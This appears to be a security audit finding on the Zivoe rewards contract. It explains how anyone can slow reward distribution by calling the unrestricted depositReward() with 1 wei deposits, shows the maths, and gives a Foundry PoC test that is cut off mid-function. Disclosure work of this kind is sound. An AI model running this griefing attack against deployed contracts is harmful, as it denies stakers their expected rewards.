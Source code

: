 The code shows that if any rewards of `_rewardsToken` are currently being distributed, the `rewardRate` is calculated by interpolating the current `rewardRate` and the reward rate of the new reward being deposited.

We should also note that `depositReward()` has no access control or minimum deposit requirements, which allows anyone to deposit even 1 wei.

Here is how this can be exploited:

**Example scenario:**

- Suppose USDC is configured as a reward token with `rewardsDuration` of 30 days.
- An initial legitimate reward of 100,000 USDC sets the `rewardRate` to:

$$
rewardRate = \frac{100,000e6}{30\ days} = \frac{100,000e6}{2,592,000\ sec.} = 38,580
$$

- 15 days later, a malicious actor deposists just 1 wei of USDC. The new `rewardRate` becomes:

$$
rewardRate = \frac{1\ wei + (15\ days \times 38,580)}{30\ days} = \frac{1 + 49,999,680,000}{2,592,000 sec.} = 19,291
$$

This recalculation effectively halves the speed of the reward distribution. This results in the distribution of only 25,001 USDC over the next days instead of the expected 50,000 USDC:

$$
distributedTokens = 15\ days \times 19,291 = 25,001e6\ USDC 
$$

With a configured `rewardsDuration` of 30 days, a malicious actor can reduce the speed of reward distribution by up to 36% by depositing just 1 wei of rewards daily. The following coded PoC will demonstrate 
this exploit.
### Coded PoC

Add this test to `Test_ZivoeRewards.sol` and add the following import: `import "forge-std/console2.sol";`

Run the PoC with `forge test --mt testRewardsDistributionCanBeSlowedDownByAnyone --fork-url $MAINNET_RPC_URL -vvv`

```solidity
    function testRewardsDistributionCanBeSlowedDownByAnyone() public {
        uint256 deposit = 100_000 ether;

        // Stake
        assert(sam.try_approveToken(address(ZVE), address(stZVE), IERC20(address(ZVE)).balanceOf(address(sam))));
        sam.try_stake(address(stZVE), IERC20(address(ZVE)).balanceOf(address(sam)));

        // Deposit rewards (rewardsDuration = 30 days for DAI)
        depositReward_DAI(address(stZVE), deposit);

        // Malicious actor deposits 1 wei every day
        for (uint i; i < 30; i++) {
            hevm.warp(block.timestamp + 1 days);
            depositReward_DAI(address(stZVE), 1 wei);
        }

        // Get rewards
        assert(sam.try_getRewards(address(stZVE)));

        uint256 expected = deposit;
        uint256 actual = IERC20(DAI).balanceOf(address(sam));

        console2.log("Distributed rewards after 30 days");
```